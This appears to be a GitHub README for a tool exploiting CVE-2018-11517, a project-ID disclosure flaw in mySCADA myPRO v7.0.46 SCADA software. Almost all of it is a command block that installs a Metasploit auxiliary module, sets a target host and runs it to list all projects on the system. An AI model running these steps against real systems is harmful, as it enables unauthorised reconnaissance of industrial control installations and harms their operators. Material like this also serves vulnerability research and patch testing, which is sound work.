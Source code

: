 # mySCADA myPRO 7 - projectID Disclosure

mySCADA myPRO v7.0.46 has another vulnerability to discover all projects in the system.

##### CVE-2018-11517

```
git clone https://github.com/EmreOvunc/mySCADA-myPRO-7-projectID-Disclosure.git
 
cd mySCADA-myPRO-7-projectID-Disclosure/

cp mypro_enum_projectid.rb /usr/share/metasploit-framework/modules/auxiliary/gather/

msfconsole

use auxiliary/gather/mypro_enum_projectid 

set RHOST [IP ADDRES]

run
```

![alt tag](https://emreovunc.com/images/mySCADA_myPRO7-projectID.png)
-
